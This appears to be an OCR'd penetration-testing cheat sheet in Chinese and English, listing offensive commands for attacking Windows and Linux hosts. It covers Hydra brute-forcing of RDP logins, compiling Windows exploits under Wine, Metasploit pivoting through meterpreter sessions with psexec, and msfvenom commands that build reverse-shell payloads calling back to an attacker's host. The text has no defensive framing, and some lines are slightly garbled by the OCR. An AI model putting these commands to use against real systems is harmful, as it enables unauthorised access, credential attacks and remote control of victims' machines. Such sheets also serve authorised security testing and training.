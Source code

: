 fuser -k -n tcp 80
使用 Hydra 爆破 RDP
hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp
挂载远程 Windows 共享文件夹
smbmount //X.X.X.X/c> $ /mnt/remote/ -o username=user,password=pass,rw
Kali 下编译 Exploit
gcc -m32 -o output32 hello.c (32 位)
gcc -m64 -o output hello.c (64 位)
Kali 下编译 Windows Exploit
wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe
NASM 命令
注：NASM 全称 The Netwide Assembler，是一款基于80×86和x86-64平台的汇编语言编译程序，其设计初衷是为了实现编译器程序跨平台和模块化的特性。
nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
SSH 穿透
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
SSH 穿透从一个网络到另一个网络
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
使用 metasploit 进行穿透
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E
或者
# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
基于 CSV 文件查询 Exploit-DB
git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u
./searchsploit apache 2.2
./searchsploit "Linux Kernel"
cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
MSF Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php